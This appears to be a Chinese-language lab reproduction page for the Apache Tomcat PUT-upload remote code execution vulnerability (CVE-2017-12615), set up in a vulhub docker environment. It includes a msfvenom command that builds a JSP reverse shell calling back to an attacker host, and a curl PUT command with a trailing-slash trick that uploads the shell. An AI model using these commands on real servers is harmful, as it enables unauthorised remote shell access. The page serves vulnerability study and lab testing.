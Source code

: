 ```yaml
---
Title: Apache Tomcat 远程代码执行漏洞 CVE-2017-12615
---
```


# Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

<a-checkbox checked>Apache Tomcat 7.0.0 - 7.0.81</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

![cbe1eedd-5a2a-4147-b44c-d2789769015f](../../../.vuepress/public/img/cbe1eedd-5a2a-4147-b44c-d2789769015f.png)

## 漏洞复现

漏洞产生的主要原因来自于`conf/web.xml`文件配置错误,readonly开启了false,导致可以使用`PUT/DELETE`请求方法操作文件

![291a35c3-469d-48b6-a65d-92270dfe6024](../../../.vuepress/public/img/291a35c3-469d-48b6-a65d-92270dfe6024.png)

`msf`生成一个`jsp`木马

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```shell
curl -v -X PUT --data-binary @shell.jsp "http://xxx.xxx.xxx.xxx:8080/shell.jsp/"
```

<a-alert type="success" message='注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要' description="" showIcon>
</a-alert>

<br/>

成功上传木马文件

![a963d85c-3514-490e-905f-1b6193c75adf](../../../.vuepress/public/img/a963d85c-3514-490e-905f-1b6193c75adf.png)

访问文件即可反弹一个`shell`

